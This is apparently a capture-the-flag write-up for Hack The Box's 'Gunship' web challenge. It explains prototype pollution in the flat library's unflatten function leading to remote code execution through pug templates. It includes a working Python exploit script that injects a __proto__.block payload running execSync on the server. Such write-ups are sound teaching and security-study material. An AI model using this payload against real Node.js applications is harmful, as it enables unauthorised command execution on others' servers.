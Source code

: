 # Gunship

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship.gif)

## Challenge Description

In this challenge, we were tasked with exploiting a web application named Gunship. The application is a Single Page
Application (SPA), and at the bottom of the page, there is a form where users can submit their favorite artist's name.

We were also provided with the source code of the application, which revealed potential vulnerabilities that could be
leveraged to compromise the system.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-home.png)

## Code Review

### Key Dependencies

By reviewing the package.json file, we identified that the application uses several Node.js libraries, including:

```json
{
    "dependencies": {
        "express": "^4.17.1",
        "flat": "5.0.0",
        "pug": "^3.0.0"
    }
}
```

::: info Notably:

- Pug (version 3.0.0) is used to render server responses and is known to be vulnerable to prototype pollution.
- Flat (version 5.0.0), a library that converts nested objects into flat key/value pairs and vice versa, is used in the
  request handling process. The unflatten function from this library also has potential weaknesses that allow for
  prototype pollution.
  :::

### Endpoint Analysis

The form submits user input via a POST request to the /api/submit endpoint. The vulnerable portion of the server-side
code can be seen below:

```javascript
const { unflatten } = require("flat");

router.post("/api/submit", (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes("Haigh") || artist.name.includes("Westaway") || artist.name.includes("Gingell")) {
        return res.json({
            "response": pug.compile("span Hello #{user}, thank you for letting us know!")({ user: "guest" }),
        });
    } else {
        return res.json({
            "response": "Please provide us with the full name of an existing member.",
        });
    }
});
```

- Pug is used to render the response based on user input.
- The unflatten function processes the request body. However, it is vulnerable to prototype pollution, allowing us to
  manipulate the object prototype.

## Exploitation - Prototype Pollution

### Vulnerability: Prototype Pollution

By exploiting the prototype pollution vulnerability in flat’s unflatten function, we can inject arbitrary properties
into the `artist` object’s prototype. This can lead to remote code execution (RCE) through the Pug templating engine.

### Exploit Strategy

We will use Python to craft and send a malicious payload to the vulnerable `/api/submit` endpoint, injecting a `block`
object into the prototype of the `artist` object. This injected object will execute system commands on the server.

### Exploit Code:

```python
import requests

url = "http://localhost:1337/api/submit"

payload = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}

r = requests.post(url, json=payload)
print(r.json())
```

### Explanation of the Payload:

- **Prototype Injection**: The payload injects the `block` object into the prototype of the `artist` object using the
  `__proto__` property.
- **Command Execution**: The `block.line` property is set to execute a command using **Node.js** to read a file that
  starts
  with `flag` (`cat flag*`), typically containing the challenge flag.
- **Why `$()`?**: The `$()` syntax ensures that the command (`cat flag*`) is evaluated and executed by the system.

### Result:

After sending the crafted payload, the server returns the following response:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We got the flag!
Now you can try this on the HTB server to get the real flag.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-pwned.png)

## References

- [Github - pug - Code Injection](https://github.com/pugjs/pug/issues/3312)
- [Hacktricks - Pug Prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug-vulnerability)